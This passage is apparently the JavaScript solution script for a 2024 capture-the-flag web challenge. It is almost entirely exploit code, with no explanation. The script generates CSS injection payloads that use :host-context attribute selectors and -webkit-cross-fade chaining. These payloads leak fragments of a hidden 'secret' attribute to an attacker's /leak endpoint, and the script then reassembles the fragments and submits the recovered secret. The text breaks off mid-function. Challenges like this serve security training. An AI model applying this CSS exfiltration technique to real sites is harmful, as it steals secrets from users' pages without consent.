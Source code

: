 ``` js
let payload1 = ''
let crossPayload1 = 'url("/")'
let payload2 = ''
let crossPayload2 = 'url("/")'
let payload3 = ''
let crossPayload3 = 'url("/")'

const third = Math.floor(arr.length / 3);
const arr1 = arr.slice(0, third); 
const arr2 = arr.slice(third, 2 * third); 
const arr3 = arr.slice(2 * third); 

for(let str of arr1) {
    payload1 += `:host-context(*[secret*="${str}"]){--${str}:url("${BASE}/leak?q=${str}")}\n`
    crossPayload1 = `-webkit-cross-fade(${crossPayload1}, var(--${str}, none), 50%)`
}

for(let str of arr2) {
    payload2 += `:host-context(*[secret*="${str}"]){--${str}:url("${BASE}/leak?q=${str}")}\n`
    crossPayload2 = `-webkit-cross-fade(${crossPayload2}, var(--${str}, none), 50%)`
}

for(let str of arr3) {
    payload3 += `:host-context(*[secret*="${str}"]){--${str}:url("${BASE}/leak?q=${str}")}\n`
    crossPayload3 = `-webkit-cross-fade(${crossPayload3}, var(--${str}, none), 50%)`
}

payload1 = `${payload1} .p1{background-image:${crossPayload1} }`
payload2 = `${payload2} .p2{background-image:${crossPayload2} }`
payload3 = `${payload3} .p3{background-image:${crossPayload3} }`

function filterFirst(arr, item) {
  const result = []
  let found = false
  for(let a of arr) {
    if (a===item && !found) {
      found = true
      continue
    }
    result.push(a)
  }
  return result
}

async function getFlag(secret) {
  return fetch('https://in-the-shadows-web.2024.ctfcompetition.com/check-secret?secret=' + secret).then(res => res.text()).then((text) => {
    if (text !== 'Invalid secret') {
      console.log(text)
    }
  }).catch(err => console.log('err', err.message))
}

function mergeWords(arr, ending) {
  if (arr.length === 0) return ending
  if (!ending) {
    for(let i=0; i<arr.length; i++) {
      let isFound = false
      for(let j=0; j<arr.length; j++) {
        if (i === j) continue

        let suffix = arr[i][1] + arr[i][2] 
        let prefix = arr[j][0] + arr[j][1]
```